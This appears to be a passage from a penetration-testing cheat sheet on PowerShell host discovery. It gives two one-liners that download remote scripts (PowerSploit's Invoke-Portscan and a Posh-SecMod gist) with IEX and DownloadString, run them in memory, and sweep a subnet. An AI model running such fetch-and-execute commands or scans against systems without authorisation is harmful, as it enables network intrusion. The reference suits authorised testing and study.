

Powershell
Host Discovery with Powershell
• PowerSploit:
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1 PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1 ');$a = Invoke-Portscan -Hosts "192.168.147.1/24" -PingOnly; foreach ($h in $a) {if ($h.alive) {$h}} Does a simple port scan using regular sockets, based (pretty) loosely on nmap, with the cicle for we print out only alive hosts
• Posh-SecMod:
https://github.com/darkoperator/Posh-SecMod PS> iex (New-Object Net.WebClient).DownloadString("https://gist.github.com/darkoperator/6404266/raw/982cae410fc41f6c64e69d91fc3dda777554f241/gistfile1.ps1"); Invoke-ARPScan -CIDR 192.168.147.1/24